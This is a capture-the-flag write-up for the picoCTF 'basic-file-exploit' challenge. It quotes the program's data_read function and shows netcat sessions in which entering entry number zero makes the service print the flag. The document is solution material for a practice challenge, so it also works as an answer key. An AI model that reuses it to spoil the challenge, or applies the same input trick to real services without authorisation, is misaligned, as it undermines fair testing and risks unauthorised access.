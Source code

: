 # basic-file-exploit

### Description

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!

### Resources

- nc saturn.picoctf.net 49698
- program-redacted.c

### Solution

Step 1: Open up program-redacted.c in text editor

Step 2: Use <kbd>CTRL+f</kbd> to find where the flag variable is being used

Step 3: Notice the data_read function

```c
static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```

The function works using the following logic to give the flag:
1. Enter the entry number of the data you would like to read.
2. Convert the entry number to a long value with given base 10.
3. If the converted number is equal to zero, then output the flag.

Step 4: Use the endpoint to try and get the flag

```console
sam@ubuntu:~$ nc saturn.picoctf.net 49698
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
2
No data yet
Timed out waiting for user input. Press Ctrl-C to disconnect
Goodbye!
```

Using the endpoint to try and access the second option resulted in an error response.

It was necessary to use the first option and enter data into the database before I could access this option. 

Step 5: Use the endpoint again to try and get the flag

```console
sam@ubuntu:~$ nc saturn.picoctf.net 49698
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
hello
hello
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of you data:
0
0
```

Flagtime :tada: